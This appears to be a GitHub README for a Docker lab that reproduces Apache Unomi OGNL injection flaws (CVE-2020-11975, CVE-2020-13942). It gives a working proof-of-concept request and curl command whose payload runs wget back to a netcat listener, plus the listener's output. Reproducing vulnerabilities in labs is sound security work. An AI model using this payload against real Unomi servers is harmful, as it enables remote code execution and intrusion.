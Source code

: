 # Unomi Enviroment for CVE-2020-11975 & CVE-2020-13942

[Apache Unomi](https://unomi.apache.org/) allows conditions to use OGNL scripting which offers the possibility to call static Java classes from the JDK that could execute code with the permission level of the running Java process.

## Affected Version

|      CVE     | Range |
|--------------|-----------|
| CVE-2020-11975 | <= 1.5.0 |
| CVE-2020-13942 | <= 1.5.1 |

## Usage

Run following command to startup the apache unomi 1.5.0

```bash
docker-compose up
```

### Poc of CVE-2020-11975

After start the `unomi`, listenning on port `8000` with following command

```bash
nc -llv 8000
```

Send the request below with Burp Suite

> Remeber to replace the ip address `{your ip address}` with yourself, on my device it's `192.168.1.111`.

```http
POST /context.json HTTP/1.1
Host: localhost:8181
Connection: close
Content-Type: application/json
Content-Length: 1527


{
    "source": null,
    "requireSegments": false,
    "requiredProfileProperties": null,
    "requiredSessionProperties": null,
    "events": null,
    "filters": null,
    "personalizations": [
        {
            "id": "gender-test",
            "strategy": "matching-first",
            "strategyOptions": {
                "fallback": "var2"
            },
            "contents": [
                {
                    "id": "var1",
                    "filters": [
                        {
                            "appliesOn": null,
                            "condition": {
                                "parameterValues": {
                                    "propertyName": "(#r=@java.lang.Runtime@getRuntime()).(#r.exec(\"wget http://{your ip address}:8000\"))",
                                    "comparisonOperator": "equals",
                                    "propertyValue": "male"
                                },
                                "type": "profilePropertyCondition"
                            },
                            "properties": null
                        }
                    ],
                    "properties": null
                },
                {
                    "id": "var2",
                    "filters": null,
                    "properties": null
                }
            ]
        }
    ],
    "profileOverrides": null,
    "sessionPropertiesOverrides": null,
    "sessionId": "demo-session-id"
}
```

or use curl

```bash
curl --location --request POST 'http://localhost:8181/cxs/context.json' \
--header 'Content-Type: application/json' \
--header 'Cookie: JSESSIONID=48C8AFB3E18B8E3C93C2F4D5B7BD43B7; context-profile-id=01060c4c-a055-4c8f-9692-8a699d0c434a' \
--data-raw '{
    "source": null,
    "requireSegments": false,
    "requiredProfileProperties": null,
    "requiredSessionProperties": null,
    "events": null,
    "filters": null,
    "personalizations": [
        {
            "id": "gender-test",
            "strategy": "matching-first",
            "strategyOptions": {
                "fallback": "var2"
            },
            "contents": [
                {
                    "id": "var1",
                    "filters": [
                        {
                            "appliesOn": null,
                            "condition": {
                                "parameterValues": {
                                    "propertyName": "(#r=@java.lang.Runtime@getRuntime()).(#r.exec(\"wget http://{your ip address}:8000\"))",
                                    "comparisonOperator": "equals",
                                    "propertyValue": "male"
                                },
                                "type": "profilePropertyCondition"
                            },
                            "properties": null
                        }
                    ],
                    "properties": null
                },
                {
                    "id": "var2",
                    "filters": null,
                    "properties": null
                }
            ]
        }
    ],
    "profileOverrides": null,
    "sessionPropertiesOverrides": null,
    "sessionId": "demo-session-id"
}'
```

And you will see the feedback from container.

```
$ nc -llv 8000         
GET / HTTP/1.1
User-Agent: Wget/1.21
Accept: */*
Accept-Encoding: identity
Host: 192.168.1.111:8000
Connection: Keep-Alive
```
